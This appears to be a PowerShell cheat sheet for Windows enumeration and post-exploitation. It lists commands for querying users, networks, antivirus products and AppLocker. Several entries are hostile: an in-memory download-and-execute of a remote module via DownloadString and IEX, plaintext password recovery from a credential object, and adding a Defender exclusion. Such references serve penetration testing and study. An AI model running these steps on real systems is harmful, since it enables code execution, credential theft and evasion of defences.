 # PowerShell

---

## Create a Credential (`PSCredential` Object)

```powershell
$password = ConvertTo-SecureString -AsPlain $PASSWORD -Force
$credential = New-Object System.Management.Automation.PSCredential($USERNAME, $password)
```

---

## Recover the Plaintext Password from a `PSCredential` Object

```powershell
$bstr = [System.Runtime.InteropServices.Marshal]::SecureStringToBSTR($credential.Password)
[System.Runtime.InteropServices.Marshal]::PtrToStringAuto($bstr)
```

---

## Download a File via HTTP(S)

```powershell
Invoke-WebRequest -Uri $URL -OutFile $OUTPUT_FILE_PATH
```

---

## Import a Remote PowerShell Module

Download the module and save it as a string in memory. Use `Invoke-Expression` to execute the string as actual PowerShell. This will define all of the functions for use on that line. This means that all the commands you need to execute from the module must be executed on the same line as the `Invoke-Expression` (`IEX`) statement.

```powershell
$module = (New-Object Net.Webclient).DownloadString("$REMOTE_MODULE_URL")
IEX $module; $COMMAND_1; $COMMAND_2; $COMMAND_N
```

---

## Query Operating System Information via WMI

```powershell
Get-CimInstance -ClassName "CIM_OperatingSystem"
```

---

## Query Operating System Version from .NET `Systen.Environment` Library

```powershell
[System.Environment]::OSVersion.Version
```

---

## Query Installed Updates via WMI

```powershell
Get-HotFix
```

```powershell
Get-CimInstance -ClassName "Win32_QuickFixEngineering"
```

---

## Query Installed Antivirus via WMI

```powershell
Get-CimInstance -Namespace root/securitycenter2 -ClassName antivirusproduct
```

---

## Query Environment Variables

```powershell
Get-Item Env:
```

---

## List Currently Running Processes

```powershell
Get-Process
```

---

## Query Network Adapters

```powershell
Get-NetAdapter
```

---

## Query Routing Table

```powershell
Get-NetRoute
```

---

## Query ARP Cache

```powershell
Get-NetNeighbor
```

---

## Query Network Listeners & Connections

```powershell
Get-NetIPConfiguration
```

---

## Query Local Users

```powershell
Get-LocalUser
```

---

## Query a Particular Local User

```powershell
Get-LocalUser $USERNAME
```

---

## Query Local Groups

```powershell
Get-LocalGroup
```

---

## Query a Particular Local Group

```powershell
Get-LocalGroup $GROUP_NAME
```

---

## Query SMB Shares

```powershell
Get-SmbShare
```

---

## Import a PowerShell Module

```powershell
Import-Module $PATH_TO_POWERSHELL_MODULE
```

---

## Add a Windows Defender Exclusion

In an administrative or SYSTEM context:

```powershell
Add-MpPreference -ExclusionPath $PATH_TO_FOLDER_TO_EXCLUDE
```

---

## Recursively Search the File System

```powershell
Get-ChildItem -Path C:\ -Include "$FILENAME" -Recurse -ErrorAction SilentlyContinue
```

- `$FILENAME` can contain wildcards

---

## Query Firewall Rules

```powershell
Get-NetFirewallRule
```

---

## Query AppLocker Policies

```powershell
Get-AppLockerPolicy
```

---

## Get PowerShell Version

```powershell
Get-Host | Select Version
```

